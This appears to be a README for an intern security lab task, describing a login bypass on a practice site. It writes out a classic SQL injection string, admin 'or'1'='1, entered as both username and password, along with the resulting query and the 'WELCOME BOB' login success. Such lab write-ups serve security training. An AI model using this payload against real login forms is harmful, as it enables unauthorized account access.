 # Cloud-Developer-INE-Intern-Tasks
Intern Tasks of Round First
Firstly i have entered randon username ans passowrd and it's showing login faild and now we will run query and enter given usename and password and it will showing welcome messege.

SELECT * FROM user WHERE name='admin 'or'1'='1' and password='admin 'or'1'='1'

admin 'or'1'='1' we write this sql query as a id and password

admin 'or'1'='1 (usename)

admin 'or'1'='1 (password)

now we enter this usename and password as and try to login

login successful showing WELCOME BOB
